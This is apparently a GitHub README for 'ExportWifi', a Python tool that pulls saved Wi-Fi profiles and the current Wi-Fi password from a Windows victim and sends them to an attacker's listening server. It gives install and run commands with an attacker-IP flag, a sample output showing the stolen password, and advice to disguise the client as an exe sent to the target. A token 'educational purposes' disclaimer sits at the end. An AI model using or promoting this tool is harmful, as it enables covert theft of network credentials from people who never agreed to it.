 ExportWifi
==========

Created by: Fawaz Bashiru

This a module which imports WI-FI files and detects the current WI-FI name and the current WI-FI password of the target. Every imported file is going to be saved in the directory where your server is located.

To install ExportWifi simply type:

`git clone https://github.com/Kill0geR/ExportWifi`

and

`pip install ExportWifi`

In your Terminal


HOW DOES ExportWifi WORK?
-------------------------
The ip address and the port number should be the same so the connection will work

TO FIND OUT YOUR IP-ADDRESS:
---------------------------

Linux: `ifconfig or ip a`

Windows: `ipconfig`

HOW TO USE ExportWifi?
---------------------
Change the directory

`cd ExportWifi`

Start "wifi.py" with

 `python wifi.py -aip 127.0.0.1`
 
 -aip stands for ip of attacker
 
 -cf stands for create file
 
 -ds stands for demon server and means to have the server in your directory
 
 -p stands for ports and displays the port of the attacker
 
 If you need help simply type:
 
 `python wifi.py -help`

Output of Server
---------------
````commandline
Waiting for connection....
Connection with ('127.0.0.1', 53343)

Connection has been established
6 Wifi files have been saved to your directory
The current WI-FI and Password of the target is 

WI-FI: ********* The Wi-Fi of the target will be here 
Password: ******* The password of the target will be here
````


Additional
----------
* You can send "client.py" as an exe file to the target with "auto-py-to-exe"

* ExportWifi is very easy to use.

* The server can be used for any OS. The target can only have a Windows OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.
